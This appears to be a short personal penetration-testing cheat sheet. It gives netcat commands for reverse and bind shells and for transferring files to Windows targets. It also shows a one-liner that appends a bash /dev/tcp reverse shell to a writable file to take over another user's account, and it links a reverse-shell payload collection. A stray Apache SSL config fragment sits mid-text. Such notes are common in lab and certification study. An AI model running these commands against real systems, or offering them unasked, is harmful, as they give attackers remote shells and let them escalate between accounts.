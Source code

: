 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v


/etc/apache2/ssl/apache.crtSSLCertificateKeyFile /etc/apache2/ssl/apache.key

# reverse shell in programming languages
* example: you have access to user "kid" and on the users "yolo" home directory there is a writebale file (input not secured use: `echo “ ;/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.96/1234 0>&1’ #” >> hackers`
* You can add a script there with echo "the script" >> nameoffile to overwrite this file. The script points to your kali ip.
* set up a listener in kali
* Once the file got executed you will have reverse shell to "yolo"

# reverse shells

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
